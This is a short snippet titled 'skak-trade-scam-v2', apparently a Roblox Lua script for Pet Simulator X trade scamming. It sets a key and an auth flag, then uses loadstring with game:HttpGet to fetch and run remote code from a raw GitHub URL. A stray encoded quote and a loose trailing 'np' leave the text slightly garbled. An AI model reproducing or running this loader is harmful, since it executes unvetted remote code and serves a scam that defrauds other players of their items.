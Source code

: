 # skak-trade-scam-v2
_G.Key = "kaks"
_G.AuthServer = "true"
loadstring(game:HttpGet("https://raw.githubusercontent.com/psx-Scripts/psxsc/main/script.lua%22))()
np
